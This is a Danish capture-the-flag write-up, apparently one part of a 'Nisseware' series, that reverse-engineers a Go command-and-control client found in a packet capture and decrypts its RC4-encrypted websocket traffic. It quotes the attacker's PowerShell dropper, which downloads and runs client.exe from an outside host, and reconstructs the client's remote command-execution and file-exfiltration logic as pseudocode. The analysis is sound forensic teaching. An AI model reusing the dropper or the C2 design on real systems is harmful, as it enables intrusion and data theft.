# Writeup

Vi har nu i [Nisseware: Phishing](../nisseware-phishing/) set, hvordan `N1ss3b4nd3n` får initial access gennem en macro i et maldoc og derfra henter en dynamisk payload URL fra http://raw.githubusercontent.com/N1ss3b4nd3n/N1ss3b4nd3n/main/README.md. I [Nisseware: Loading](../nisseware-loading/) kom vi frem til, at følgende payload fra https://pastebin.com/raw/GXvNcLqw var det faktiske payload i sagen:

```ps1
(New-Object System.Net.WebClient).DownloadFile("http://julebal-i-nisseland.jul/client.exe", (Get-Location).Path + "\client.exe")
$path = ((Get-Location).Path + "\client.exe")
$args = "-addr", "n1ss3b4nd3n.jul:8080"
Invoke-Expression "$path $args"
```

Scriptet henter altså tilsyneladende filen `client.exe` over HTTP og eksekverer følgende kommando:

```console
client.exe -addr n1ss3b4nd3n.jul:8080
```

Det må vi kunne se data fra i vores PCAP, så den åbnes i Wireshark, og vi sætter `http` som filter, hvorved vi får et ret overskueligt overblik:



Her ser vi først det oprindelige request til `N1ss3b4nd3n`s GitHub, og kort efter har vi som forventet et `GET`-request, der henter `client.exe` fra den fundne URL:



Vi må dermed formode, at dette script også er blevet kørt som beskrevet i PowerShell scriptet - og det er der da også tydelige tegn på, den sidste HTTP-request er nemlig til `http://n1ss3b4nd3n.jul:8080/ws` efterfulgt af et upgrade til `websocket`-protokollen:





Vi ser altså klare tegn på, at `client.exe` er blevet afviklet på maskinen, og herefter er en stor del af trafikken over `websocket`.
Det kunne tyde på, at det er klientsoftware, der kontakter en C2-server og herfra kommunikerer frem og tilbage. Inspiceres en websocket request ses dog hurtigt, at payloadet er ulæselig, sandsynligvis krypteret, så vi må reverse softwaren.

Da programmet er sendt over HTTP, er det heldigvis nemt at extracte direkte fra Wireshark: `File -> Export Objects -> HTTP...` og `Save` på det eneste resultat:



En hurtig analyse med `file` og `strings` viser os, det er en 64-bit Windows executable (som forventet) og umiddelbart skrevet i `Go`, illustreret med et lille udpluk af strings:

```console
$ file client.exe
client.exe: PE32+ executable (console) x86-64, for MS Windows, 15 sections
```

```console
$ strings -n 8 client.exe
...
 Go build ID: "iISoI0CxmyvlWlQLm3iR/z9g4zaQIYGw9PhI9q8uh/wtS69UL9ZOCIbmn2Q1ok/ZkPRq0i7PjXM_Gv7v5qK"
...
go1.21.4
...
dep     github.com/google/uuid  v1.4.0  h1:MtMxsa51/r9yyhkyLsVeVt0B+BGQZzpQiTQ4eHZ8bc4=
dep     github.com/gorilla/websocket    v1.5.1  h1:gmztn0JnHVt9JZquRuzLw3g4wouNVzKL15iLr/zn/QY=
dep     golang.org/x/net        v0.18.0 h1:mIYleuAkSbHh0tCv7RvjL3F6ZVbLjq4+R7zbOn3Kokg=
build   -buildmode=exe
build   -compiler=gc
build   DefaultGODEBUG=panicnil=1
build   CGO_ENABLED=0
build   GOARCH=amd64
build   GOOS=windows
build   GOAMD64=v1
...
golang.org/x/net/internal/socks.(*Addr).Network
golang.org/x/net/internal/socks.(*Addr).String
golang.org/x/net/internal/socks.(*Dialer).DialContext
golang.org/x/net/internal/socks.(*Dialer).validateTarget
golang.org/x/net/internal/socks.(*Dialer).DialWithConn
golang.org/x/net/internal/socks.(*Dialer).Dial
golang.org/x/net/internal/socks.(*Dialer).pathAddrs
golang.org/x/net/internal/socks.(*UsernamePassword).Authenticate
golang.org/x/net/internal/socks.init
...
github.com/gorilla/websocket.(*Conn).Close
github.com/gorilla/websocket.(*Conn).RemoteAddr
github.com/gorilla/websocket.(*Conn).writeFatal
github.com/gorilla/websocket.(*Conn).read
github.com/gorilla/websocket.(*Conn).write
...
C:/Users/User/go/pkg/mod/github.com/gorilla/websocket@v1.5.1/proxy.go
C:/Users/User/go/pkg/mod/github.com/gorilla/websocket@v1.5.1/tls_handshake.go
C:/Users/User/go/pkg/mod/github.com/gorilla/websocket@v1.5.1/util.go
C:/Users/User/Desktop/c2/client/client.go
```

Flere decompilers begynder at have fornuftig `Go`-support, og vi vil her bruge [Ghidra](https://ghidra-sre.org), der især i de nyeste version (10.3 og 10.4) har fokuseret en del på `Go`.
Det giver derfor rigtig god mening at hente nyeste udgave (10.4 under CTFen) ned. Desværre for os er programmet umiddelbart skrevet i version `1.21.4` (ifølge `strings` output), og Ghidra har endnu kun rigtig god support til `1.17-1.20` og kun middelmådig til `1.21`. Programmet vil derfor se virkelig rodet ud og være ret træls at arbejde med, men det er kun realistisk - som reverse engineer er man underlagt trusselsaktørens vilje her.

Vi åbner i Ghidra og sikrer, den detekterer programmet korrekt som en `Portable Executable (PE)` og sproget som 64-bit golang:



Vi klikker `OK` og `Yes` til en analyse. Programmet er ikke stripped, dvs. vi har adgang til alle funktionsnavne, hvilket gør processen *betydeligt* nemmere.
Vi havner sandsynligvis efter analysen i `main.main`, som er programmets entrypoint. Generelt er alle funktioner prefixed med det modul/library, de tilhører, så al custom user code ligger i modulet `main`, og det er disse funktioner, vi skal fokusere på:



Har man lidt erfaring med malware analyse, reversing o.l., vil man nok i en CTF-opgave hurtigt springe til krypteringskoden og lede efter det, der skal til for at dekryptere trafikken og komme videre. Vi vil dog for læringens skyld lave en lidt grundigere analyse her, ellers kan man springe lidt frem i teksten.

Ser vi på Ghidra's forsøg på at dekompilere koden, ser det ret forvirrende ud:



Rigtig ofte ser vi en variabel, som Ghidra ser som et 16-byte array og sætter værdier ved indeks 0 og 8 (`._0_8_` og `._8_8_`).
Det er fordi Go arbejder med en masse struktureret data, der i virkeligheden er en form for `struct` med to eller flere 8-byte felter.
Fx er strenge i Go ikke null-termineret, men er i stedet en struct bestående af et datafelt og en længde. Det forvirrer også tit Ghidra, da strenge så ligger i umiddelbart forlængelse af hinanden uden en null-separator. Go er også glad for at bruge `slices`, en slags array med et pointer felt til data, et length felt og et capacity felt, som definerer max kapacitet.

Go har sit eget Application Binary Interface (ABI) - eller har faktisk flere - og de er ikke kompatible med dem, man ellers kender fra C o.l., dvs. måden parametre passes på og hvor returværdier skrives er anderledes end normalt. Det forvirrer igen Ghidra meget (i udgaver uden god Go support), og det kan i decompilation se ud som om, en funktion enten slet ikke tager argumenter eller returnerer noget, eller at den tager langt flere argumenter, end den burde.

Alt dette kan fikses for at få en pæn og overskuelig decompilation, men det er en træls process, der kræver man opretter eller importerer mange typer og anvender dem rigtigt, samt at man fikser funktionssignaturer o.l. - alt det gør Ghidra automatisk for version `1.17-1.20`, men ikke vores.

Det kan derfor anbefales i Go-analyser, at man ikke går for meget i detaljen, men i stedet fokuserer på et hurtigt overblik. Go har et rigtig stort standard library og mange eksterne libraries tilgængelige, så man kan typisk komme utroligt langt i en Go analyse ved at nøjes med at kigge på generelle kontrolstrukturer som loops og conditionals og så ellers fokusere på de API-kald, der laves til andre libraries. De udgør oftest hoveddelen af funktionaliteten og kan typisk slås op på nettet. Herudover giver det også god mening lige at fikse strenge i brugerens egen kode, print statements o.l. kan også sige meget om programmet.

Hvis vi prøver at fokusere på `main` funktionens API kald og den generelle struktur, kan vi bygge noget simpel pseudocode op - til en start kan vi endda ignorere argumenterne til API-kaldene eller gætte, hvor det er relativt åbenlyst fra kontekst.

Allerførste del af koden er noget i stil med:

```go
args := flag.(*FlagSet).Parse()
os/signal.Notify()

conn := main.connectToServer(args.addr)
```

Umiddelbart bruges først `flag` modulet til at parse argumenter og herefter oprettes en server connection med en custom funktion, `connectToServer()` - vi ved, at koden køres med argumentet `-addr n1ss3b4nd3n.jul:8080`, så vi gætter på, at det gives som argument til connection funktionen (fremgår ikke tydeligt af den dekompilerede kode uden mere analyse).

Lad os lave samme øvelse med den funktion, før vi fortsætter med `main`. Den dekompilerede kode er noget svær at tyde, men vi ser strengene `"ws"` og `"/ws"` efterfulgt af et ukendt funktionskald `FUN_00466de2()`. Den ser speciel ud, men virker til at indsætte sine argumenter i noget struct/objekt. Lige herefter kaldes `net/url.(*URL).String`, og slår vi [funktionens dokumention](https://pkg.go.dev/net/url#URL.String) op, ser vi, at den er designet til at outputte et `URL` objekt som en samlet string med standardformen `scheme://userinfo@host/path?query#fragment`.

Så mon ikke den foregående kode laver et `URL` objekt med `scheme = "ws"` og `path = "/ws"`. Vores tidligere formodning var også, at funktionen tager hosten som argument, så den sættes nok som `host = <server>`, så den samlede connection string er `ws://<server>/ws`. Herefter kaldes et par funktioner, og vi har noget i stil med:

```go
func main.connectToServer(serverAddr) {
    url := URL{Scheme: "ws", Host: serverAddr, Path: "/ws"}
    log.(*Logger).output("Connecting to %s...", net/url.(*URL).String(url))

    conn, err := github.com/gorilla/websocket.(*Dialer).DialContext(
        github.com/gorilla/websocket.DefaultDialer,
        net/url.(*URL).String(url)
    )

    if err != nil {
        log.Fatal("dial:", err)
    }

    return conn
}
```

Som det måske er tydeligt her, tager vi nogle kvalificerede gæt undervejs ud fra API-kald og kontekst, så man må også være klar til at lave en dybere analyse og ændre sine hypoteser. Vi har dog flere datakilder og bør også sammenholde disse.

I netværkstrafikken så vi et `HTTP GET` request til `http://n1ss3b4nd3n.jul:8080/ws` med `Upgrade: websocket` efterfulgt af et `HTTP 101 Switching Protocols` response, hvor serveren accepterer et switch til `websocket`. Det stemmer fint overens med online dokumentation på `gorilla/websocket`, hvor `DefaultDialer` tager en websocket URL ind og selv sørger for websocket handshake med serveren, i stil med det vi ser.

Som forventet virker al C2-trafikken altså lige umiddebart til at være over websocket.

Vi fortsætter med `main` funktionen:

```go
args := flag.(*FlagSet).Parse()
os/signal.Notify()

conn := main.connectToServer(args.addr)

uuid := github.com/google/uuid.NewRandom()
if (uuid != 0) {
    runtime.gopanic()
}
hexId := github.com/google/uuid.encodeHex(uuid)
log.(*Logger).output("Generated ID %s\n", hexId)

main.send(conn, hexId)
response := main.receive(conn)
log.(*Logger).output(response)

if response != fmt.Sprint("ack ", hexId) {
    log.Fatal("ID doesn't match, closing...")
}
```

Efter server connection genereres umiddelbart et tilfældigt binært UUID, og funktionen `encodeHex()` kaldes - mon ikke den hex encoder UUID'et.

Nu kaldes custom `main.send()` med vores connection som argument, og vi gætter os til, den sender IDet.
Umiddelbart efter laves en `main.receive()` på vores connection og resultatet logges. Nu bruges `fmt.Sprint()` med `"ack "` som input - den funktion bruges til at concatenate strenge, og vi ser, der laves en sammenligning mellem den og responsen fra `main.recive()`. 

En naturlig analyse er derfor:

1. Brugeren kører programmet med flaget `-addr <server>`
2. Klienten connecter til den server
3. Klienten genererer et tilfældigt ID og sender til serveren
4. Serveren sender en klassisk `ack`-repons med indholdet `"ack <ID>"` for at bekræfte forbindelsen og modtagelsen af IDet
5. Klienten sammenligner server responsen med `"ack " + <ID>` for sit eget genererede ID, og hvis de er forskellige, stoppes programmet

Så langt så godt, vi har umiddelbart styr på den indledende forbindelse!

Efter denne kode støder vi ind i `main.main.func1` - Go kan til tider godt lide at splitte funktioner op i underdele, tit bare små auto-genererede bidder, der fx lukker en channel eller connection, stopper en time ticker e.l. - nogle mere relevante end andre.
Klikker man sig ind på denne, ser den dog længere og mere relevant ud end den slags små kodebidder, og den virker som en fast del af `main`-funktionen, der af en eller anden grund er splittet ud i sin egen funktion automatisk - vi fortsætter derfor med denne:

```go
do {
    action := main.receive(conn)
    log.(*Logger).output("Action: %s\n", action)
    if action == "cmd" {
        main.do_cmd(conn)
    } else if action == "kill" {
        main.do_kill(conn)
    } else if action == "upload" {
        main.do_upload(conn)
    } else if action == "download" {
        main.do_download(conn)
    } else {
        log.(*Logger).output("Invalid action")
    }
    log.(*Logger).output()
} while ( true )
```

Her har vi altså vores main loop, der tager imod action requests og kalder tilsvarende handlers. Lad os tage et kig på den første:

```go
func main.do_cmd(conn) {
    cmd := main.receive(conn)
    log.(*Logger).output("Command received: %s\n", cmd)

    os/exec.Command("powershell", "-NoProfile", cmd)
    result, err := os/exec.(*Cmd).CombinedOutput()
    if err != nil {
        log.(*Logger).output("Command execution error: %s\n", err)
        main.send(conn, 1)
        main.send(conn, err)
    } else {
        log.(*Logger).output("Command output: %s\n", result)
        main.send(conn, 0)
        main.send(conn, result)
    }
}
```

Denne kode er ret ligetil, klienten modtager en kommando, kører den med `powershell`, og både logger og sender svaret tilbage.
Den sender umiddelbart først en statuskode - 0 ved success, 1 ved fejl. De resterende commands er også nogenlunde ligetil:

```go
func main.do_upload(conn) {
    path := main.receive(conn)
    content, err := main.readFile(path)

    if err != nil {
        log.(*Logger).output("File error: %s\n", err)
        main.send(conn, 1)
        main.send(conn, err)
    } else {
        log.(*Logger).output("Uploading file %s...\n", path)
        main.send(conn, 0)
        main.send(conn, content)
    }
}

func main.do_download(conn) {
    path := main.receive(conn)
    content := main.receive(conn)

    err := main.writeFile(path, content)
    if err != nil {
        log.(*Logger).output("File error: %s\n", err)
        main.send(conn, 1)
        main.send(conn, err)
    } else {
        main.send(conn, 0)
        main.send(conn, "File download successful")
        log.(*Logger).output("File downloaded and saved")
    }
}

func main.do_kill(conn) {
    log.(*Logger).output("Killing client...")
    os.Exit(0)
}
```

Altså ved upload modtages en filsti og så læses den fil, og dens indhold sendes til serveren.
Ved download modtages en sti og filindhold, og en fil med det indhold skrives på den givne sti. Vi kan fint springe `main.readFile()` og `main.writeFile()` over, det er relativt åbenlyst, hvad de gør.
Kill dræber forbindelsen til klienten.

Vi mangler lige at se `main.send()` og `main.receive()` igennem, det må så være her selve magien (AKA krypteringen) sker:

```go
func main.send(conn, msg) {
    encrypted := main.encrypt(msg)
    err := github.com/gorilla/websocket.(*Conn).WriteMessage(conn, encrypted)
    if err != nil {
        log.Fatal(err)
    }
}

func main.receive(conn) {
    msg, err := github.com/gorilla/websocket.(*Conn).ReadMessage(conn)
    if err != nil {
        log.Fatal(err)
    }
    return main.encrypt(msg)
}
```

Begge ret simple funktioner, der begge anvender `main.encrypt()` - det er altså nok en symmetrisk krypteringsalgoritme med identisk kode til kryptering og dekryptering. Den er selvfølgelig super relevant for at kunne dekryptere al trafik, og i en CTF-opgave vil det være naturligt at springe direkte hertil og springe hele den dybdegående analyse og forståelse over, selvom den dog også vil hjælpe os i den kommende automatisering af dekrypteringen.

```go
func main.encrypt(msg) {
    key := "n1ss3b4nd3ns_n1ss3w4r3"
    cipher, err := crypto/rc4.NewCipher(key)
    if err != nil {
        log.Fatal(err)
    }

    return crypto/rc4.(*Cipher).XORKeyStream(msg)
}
```

Perfekt! De bruger simpel RC4-kryptering og med en hardcoded nøgle: `n1ss3b4nd3ns_n1ss3w4r3`.
Dvs. vi nu kan dekryptere alt trafik ved at hive alle relevante websocket packets ud af dumpet og dekryptere med RC4 og denne key!

Vi kan i Wireshark sætte filteret `websocket` for lige at få et overblik over denne trafik:



De fleste af pakkerne er markeret som `[FIN]`, altså de afslutter en overførsel - andre indeholder kun en del af den samlede overførsel, markeret som `[FRAGMENT]`.
Nogle overførsler er `[MASKED]`, dvs. payloadet faktisk er XORet med en masking key, der også står som felt i overførslen - men det behøver vi ikke bekymre os om at decode, den klarer Wireshark automatisk! I højre side kan man da se `Unmasked data` og derudover også `Reassembled Message`, hvis det er en `[FIN]`-packet, der afslutter en serie af fragmenter:



Vi er kun interesseret i de pakker, der har `Fin`-bit sat, da vi så i dem kan se alle reassembled beskeder, så vi kan sætte filteret mere specifikt til `websocket.fin == 1`.
Her ender vi med 116 packets mellem samme source og destination, så det er sandsynligvis al C2-trafik. Den data, vi er interesseret i, står i feltet `websocket.payload.text`, den indeholder nemlig hele den samlede besked på tværs af fragmenter.

Normalt ville vi kunne bruge en `tshark`-command i stil med følgende for at filtrere på `websocket.fin == 1` og vælge feltet `websocket.payload.text` i hver:

```console
$ tshark -r network_logs.pcapng -Y "websocket.fin == 1" -T fields -e "websocket.payload.text"
```

Det returnerer dog ikke et pænt hexresultat som normalt, og de bytes, der extractes, er ikke de korrekte - muligvis en bug, det virker i hvert fald ikke, som det plejer.

Men frygt ej! Vi kan i stedet bruge `-T json` (eller her `-T jsonraw` for at få alt i hex):

```console
$ tshark -r network_logs.pcapng -Y "websocket.fin == 1" -T jsonraw
```

Fra det får vi en lang liste af store `json` objekter, da vi nu ikke kan selecte direkte på specifikke fields. Den relevante data ligger dybt nested i et format i stil med:
```json
[
    {
        "_source": {
            "layers": {
                "websocket": {
                    "websocket.payload": {
                        "websocket.payload.txt_raw": [
                            "RELEVANT DATA I HEX",
                            ...
                        ],
                        ...
                    },
                    ...
                },
                ...
            },
            ...
        },
        ...
    },
    {
        ...
    },
    ...
]
```

Her kan man fx bruge `Python` med `json`-modulet, men ellers kan kommandolinjeværktøjet `jq` klart anbefales.
Her kan man specificere en selector med punktum foran, og så anvendes den på alle resultater - `.[]` kan bruges til at selecte alt i en liste og fx `[0]` for at vælge første element.
Følgende selector extracter præcis den værdi, vi skal bruge fra hver packet:

```
.[]._source.layers.websocket."websocket.payload"."websocket.payload.text_raw"[0]
```

Det skal køres med `jq -r` for at få rå data ud og slippe for citationstegn omkring alle strings. Vi kan altså extracte alt relevant data med følgende samlede kommando:

```console
$ tshark -r network_logs.pcapng -Y "websocket.fin == 1" -T jsonraw | jq -r '.[]._source.layers.websocket."websocket.payload"."websocket.payload.text_raw"[0]' > websocket_packets.txt
```

Nu har vi en fil, `websocket_packets.txt`, der består af en linjes krypteret hex data per C2-overførsel. Det sidste vi mangler er at få dekrypteret disse korrekt.
Til det kan vi lave et lille `Python` script, der bare dekrypterer alt indhold og printer de resultater, der er ren ASCII og det resterende som hex (trunkeret):

```py
from Crypto.Cipher import ARC4

with open("websocket_packets.txt") as f:
    packets = [bytes.fromhex(p) for p in f]

for packet in packets:
    decrypted = ARC4.new(b"n1ss3b4nd3ns_n1ss3w4r3").decrypt(packet)
    if decrypted.isascii():
        print(decrypted.decode())
    else:
        print(f"Binary blob: " + decrypted[:100].hex())
```

Her kan vi få et fint overblik over, hvilke commands, der er kørt, men det er et lidt uoverskueligt output, og vi har også brug for at gemme alle dekrypterede filer.
Vi laver derfor i stedet et lidt udvidet script, der først dekrypterer alle pakker på samme måde:

```py
from Crypto.Cipher import ARC4

# Decrypt each packet
with open("websocket_packets.txt") as f:
    decrypted = []
    for line in f:
        decoded = bytes.fromhex(line.replace("null", ""))
        pt = ARC4.new(b"n1ss3b4nd3ns_n1ss3w4r3").decrypt(decoded)
        decrypted.append(pt)
```

Nu kan vi lidt mere intelligent tjekke, hvilken action, der er sendt i requestet - vi ved det skal være en af `"cmd"`, `"upload"`, `"download"`, eller `"kill"` - og herudover formoder vi, første pakke til serveren indeholder et ID og første respons et acknowledgement. Vi opretter mapperne `cmd/`, `upload/` og `download/`, hvor vi kan gemme de overførte filer og resultatet af hver `cmd`.

Da vi har analyseret koden grundigt, ved vi præcis, hvilke requests og responses der sendes for hver type action.
En `cmd` vil fx starte med at sende kommandoen, modtage en packet med statuskode og sidst output fra kommandoen. Vi kan derfor bare printe selve kommandoen og så gemme resultatet i en tekstfil for overskuelighedens skyld.

En `upload` vil først sende en filsti, og herefter svares med en statuskode og selve indholdet fra den fil. Det er vigtigt, vi gemmer filindholdet, for det er præcis de filer, der er blevet eksfiltreret.

En `download` vil igen sende en filsti og derefter indholdet, der skal hentes ned. Klienten svarer så med statuskode og en besked, der indikerer succes eller fejl.

Alt resterende (ID, ID ack og kill) printer vi blot:

```py
for data in (packets := iter(decrypted)):
    # Parse cmd requests (req = cmd, response = [status, output])
    if data == b"cmd":
        cmd = next(packets).strip().decode()

        status = int.from_bytes(next(packets), "big")
        output = next(packets).replace(b"\x91", "æ".encode()).decode()

        print(f"CMD: {cmd} (status {status})")

        if output == "":
            continue

        cleaned = cmd.replace(" ", "_")
        for c in "/\\:|*":
            cleaned = cleaned.replace(c, "-")

        # Save result to file
        with open(f"cmd/{cleaned}.txt", "w") as f:
            f.write(output)

    # Parse upload requests (req = path, response = [status, content])
    elif data == b"upload":
        path = next(packets).strip().decode()
        filename = path.split("\\")[-1]

        status = int.from_bytes(next(packets), "big")
        content = next(packets)

        print(f"UPLOAD: {path} (status {status})")

        with open(f"upload/{filename}", "wb") as f:
            f.write(content)

    # Parse download requests (req = [path, content], response = [status, msg])
    elif data == b"download":
        path = next(packets).strip().decode()
        filename = path.split("\\")[-1]
        content = next(packets)

        status = int.from_bytes(next(packets), "big")
        msg = next(packets).strip().decode()

        print(f"DOWNLOAD: {path} (status {status} - {msg})")

        with open(f"download/{filename}", "wb") as f:
            f.write(content)

    # Print all other packets as ASCII
    else:
        print(data.decode())
```

Det samlede script kan ses i [decrypt_extract.py](solution/decrypt_extract.py), og kører vi dette, får vi et super godt overblik over alt, der er foretaget på maskinen, samtidig med at alle uploadede og downloadede filer gemmes:

```
9ef9756d-5ab8-4fa5-b4c9-0ad467fd3c78
ack 9ef9756d-5ab8-4fa5-b4c9-0ad467fd3c78
CMD: hostname (status 0)
CMD: whoami (status 0)
CMD: whoami /all (status 0)
CMD: systeminfo (status 0)
CMD: tasklist (status 0)
